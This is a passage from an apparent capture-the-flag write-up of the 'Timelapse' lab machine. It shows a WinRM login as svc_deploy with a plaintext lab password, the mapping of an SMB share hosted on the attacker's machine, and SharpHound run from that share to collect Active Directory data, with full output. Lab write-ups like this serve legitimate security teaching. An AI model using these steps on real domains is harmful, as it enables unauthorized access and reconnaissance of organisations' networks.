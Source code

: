 ### Shell as scv_deploy

Let's log into **svc_deploy** using **Evil-Winrm**. Here **-i** is for domain ip, **-u** for domain username, **-p** for user password and **-S** to enable SSL

```powershell
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S                                       
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

Because we are in a Active Directory Domain environment, we will run **Sharphound**, an investigator used to gather information from all over the domain. **SharpHound** is preferable for looting. So first run a **smbserver** on our attacker machine and create shares and then access those shares on victim machine and run tools remotely. For this we will be using script called **smbserver.py** from **impacket** toolkit. 

```powershell
C:\Users\svc_deploy\Documents> net use \\10.10.10.10\share /u:ab ab
Enter PEM pass phrase:
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> cd \\10.10.10.10\share
Enter PEM pass phrase:
```

```powershell
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.10\share> ./SharpHound.exe -c all
2024-01-20T07:54:16.5774527-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-01-20T07:54:20.4368309-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-01-20T07:54:23.4993328-08:00|INFORMATION|Initializing SharpHound at 7:54 AM on 1/20/2024
2024-01-20T07:54:27.8587016-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for timelapse.htb : dc01.timelapse.htb
2024-01-20T07:54:39.3274598-08:00|INFORMATION|Loaded cache with stats: 71 ID to type mappings.
 71 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-01-20T07:54:40.9368291-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-01-20T07:54:47.0305955-08:00|INFORMATION|Beginning LDAP search for timelapse.htb
2024-01-20T07:54:47.1087146-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-01-20T07:54:47.1087146-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-01-20T07:55:21.7493247-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-01-20T07:55:52.4524535-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-01-20T07:56:25.9524614-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-01-20T07:57:02.8070949-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-01-20T07:57:39.5471716-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
```